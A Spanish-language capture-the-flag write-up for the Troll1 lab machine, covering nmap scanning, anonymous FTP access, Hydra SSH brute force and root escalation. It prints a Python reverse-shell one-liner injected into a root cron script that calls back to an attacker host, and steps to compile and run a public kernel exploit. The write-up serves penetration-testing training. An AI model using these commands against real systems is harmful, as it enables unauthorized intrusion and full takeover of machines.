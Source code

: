 ```yaml
---
title: Resolución de TROLL1 CTF
date: 2023-08-02
categories: [Laboratorios]
tags: [pentesting, ctf, privilege-escalation, linux]
---
```


## Reconocimiento inicial

Descubrimos los HOST activos:

```bash
sudo nmap -sn -n 192.168.20.0/24
```

En este caso sabemos que la maquina es la 192.168.20.128 por lo que escaneamos los puertos activos de forma segura para no ser detectados.

```bash
sudo nmap -sS -n -ff --top-ports 5 192.168.20.128
```

De nuevo aquí sabemos que esta máquina únicamente tiene los puertos 21,22 y 80 activos. Ahora vamos a ver que servicios y que versión corren esos puertos:

```bash
sudo nmap -sV -n -p21,22,80 192.168.20.128
```

![Nmap scan](/assets/img/posts/troll1/20241125_224002_6-1.png)

Como vemos que en este caso el puerto 80 está activo significa que está corriendo alguna aplicación web así que vamos al navegador a verificar.

En esta aplicación habrá archivos y contenido dentro de la aplicación web utilizando DIRBUSTER etc.

Sabiendo que servicios corren podemos buscar vulnerabilidades públicas y si tienen PoC.

## Explotación de FTP anónimo

Observamos que tiene un servicio FTP activo en el puerto 21 y que este servicio por defecto implementa un acceso anónimo, por lo que podremos probar.

```bash
ftp 192.168.20.128
```

![FTP anonymous](/assets/img/posts/troll1/20241125_224045_6-2.png)
_Como vemos esta máquina tiene un login anónimo en FTP._

Listamos archivos y vemos un "lol.pcap" así que lo traemos a la máquina principal:

```bash
get lol.pcap
exit
```

Abrimos el archivo con WIRESHARK:

![Wireshark analysis](/assets/img/posts/troll1/20241125_224150_6-3.png)
_Y vemos registros de inicio de sesión mediante FTP_

En este tipo de conexiones es interesante ver que archivos y que transferencias se han realizado:

![FTP data](/assets/img/posts/troll1/20241125_224209_6-4.png)
_En este caso en un FTP-DATA encontramos algo más de información._

Como vemos es alguna guía para este CTF indicando que casi pero no. Podríamos intentar buscar algo sobre esta información en la aplicación web.

## Exploración web y enumeración

En el navegador vamos a buscar el directorio http://192.168.20.128/sup3rs3cr3tdirlol/

Encontramos un archivo y lo descargamos.

Si lo abrimos vemos que es un binario en que solo distinguimos algunas cadenas de texto.

![Binary analysis](/assets/img/posts/troll1/20241125_224347_6-5.png)
_Como vemos hay algún tipo de pista._

A lo mejor se está refiriendo a la aplicación web http://192.168.20.128/0x0856BF/

Vemos dos carpetas en las que hay dos archivos uno con una contraseña y otro con lo que parece una lista de Usuarios:

```text
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

## Fuerza bruta SSH

Ahora bien, si recordamos esta máquina tiene varios servicios, FTP, HTTP y SSH, quizá esto indique algún usuario válido para poder acceder por SSH.

Para ello si tenemos el usuario concreto y su contraseña pues lo hacemos manualmente si no podemos usar algunas herramientas automáticas. Una de las más famosas es HYDRA:

Descargamos los archivos de texto de la máquina a la nuestra con:

```bash
curl http://192.168.20.128/0x0856BF/good_luck/which_one_lol.txt > users.txt
curl http://192.168.20.128/0x0856BF/this_folder_contains_the_password/Pass.txt > pass.txt
```

Modificamos el documento para eliminar esa cadena de texto innecesaria y vamos con hydra:

```bash
hydra -L users.txt -p "Good_job_:)" 192.168.20.128 ssh
```

Pero parece que no es correcto ya que hydra nos devuelve que no ha encontrado coincidencias. Teniendo un poco en cuenta que es un CTF y que la carpeta donde copiamos la posible contraseña se llama "this_folder_contains_the_password", pensando un poco y siendo creativos podemos pensar que es "Pass.txt" así que vamos a probar:

```bash
hydra -L users.txt -p "Pass.txt" 192.168.20.128 ssh
```

![Hydra success](/assets/img/posts/troll1/20241125_224609_6-6.png)
_Como vemos en este caso ha conseguido acceso mediante una coincidencia._

A todo esto hay que tener en cuenta que todo esto será monitoreado por prácticamente cualquier IDS como SNORT si se realiza así sin más o sin protección por lo que es algo a tener en cuenta ya que hydra básicamente hace un ataque de fuerza bruta.

## Post-explotación y escalada de privilegios

En este punto podemos tomar tres caminos:

- Descubrir que proceso nos termina la sesión por timeout
- Descubrir ficheros a los que tengamos acceso desde la máquina
- Buscar vulnerabilidades para la versión del sistema operativo que esté ejecutando la máquina

Vamos a ver si podemos eliminar o configurar el proceso que nos termina la sesión:

```bash
cd /var/log
```

Listamos y vemos un archivo cronlog que si analizamos está ejecutando un archivo llamado cleaner.py

![Cronlog analysis](/assets/img/posts/troll1/20241125_224800_6-7.png)

Buscamos donde se encuentra ese archivo y vemos su contenido:

![Cleaner.py content](/assets/img/posts/troll1/20241125_224814_6-8.png)

Es un script en python que de forma recursiva elimina a todo el contenido de la carpeta tmp pero si vemos quien ejecuta este archivo es el usuario root y tiene un problema de seguridad y es que el archivo se puede modificar por cualquier usuario.

Buscamos un script de python para activar un reverse shell desde el archivo: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.20.129",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Con un nano vamos a modificar el script de python añadiendo esa línea de ejecución y vamos escuchar por el puerto con netcat:

```bash
nano /lib/log/cleaner.py
netcat -lvp 4242
```

Y cuando el archivo se ejecute veremos como obtenemos una reverse shell de la máquina con privilegios root:

![Reverse shell](/assets/img/posts/troll1/20241125_224925_6-9.png)

De nuevo esto es una máquina preparada por lo que en el mundo real no se encuentran esos script diseñados para poder explotarlos.

## Método alternativo: Kernel Exploit

Pero sí que en un caso real podemos hacer un análisis sobre vulnerabilidades que tenga algún servicio desactualizado que proporcione una brecha de seguridad que podamos explotar.

Por ejemplo hay un exploit del kernel de linux en su versión 3.13.0 en las versiones de Ubuntu 12.04/14.04/14.10/15.04 [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

Para probarlo podemos copiar el exploit e ir a una dirección donde el usuario de ssh pueda escribir como es TMP:

```bash
pico exploit.c
# Pegamos el exploit
gcc exploit.c -o hacked
./hacked
```

![Privilege escalation](/assets/img/posts/troll1/20241125_225102_6-10.png)
_Y como vemos tenemos escalado de privilegios_